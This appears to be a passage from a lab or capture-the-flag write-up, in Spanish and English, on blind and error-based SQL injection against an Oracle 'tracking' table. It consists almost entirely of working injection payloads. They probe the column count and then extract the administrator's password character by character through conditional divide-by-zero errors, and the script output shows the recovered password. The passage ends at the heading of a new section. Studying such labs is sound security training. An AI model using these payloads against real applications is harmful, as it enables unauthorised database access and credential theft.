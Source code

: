 ```ruby
[◑] SQLI: TvXMzKlqgSfVoLVu'union (SELECT CASE WHEN ((select SUBSTR(password,20,1) from users where username='administrator')='8') THEN TO_CHAR(1/0) END FROM dual)-- -
[◑] Password: qrq9bue71121gy21mpt8
```

- Injection

```sql
SELECT * FROM tracking WHERE id  = 'TvXMzKlqgSfVoLVu'order by 1-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'union select NULL from dual-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'union (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) END FROM dual)-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'union (SELECT CASE WHEN((select 'test' from dual)='test') THEN TO_CHAR(1/0) END FROM dual)-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'union (SELECT CASE WHEN((select SUBSTR(username,1,1) from users where username='administrator')='a') THEN TO_CHAR(1/0) END FROM dual)-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'union (SELECT CASE WHEN ((select SUBSTR(username,1,1) from users where username='administrator' and length(password)=20)='a') THEN TO_CHAR(1/0) END FROM dual)-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'union (SELECT CASE WHEN ((select SUBSTR(password,1,1) from users where username='administrator')='p') THEN TO_CHAR(1/0) END FROM dual)-- -'
```

## Inyección SQL basada en errores visibles || Visible error-based SQL injection

- Query SQL

```sql
SELECT * FROM tracking WHERE id = '$INPUT$'
```

- Explotation

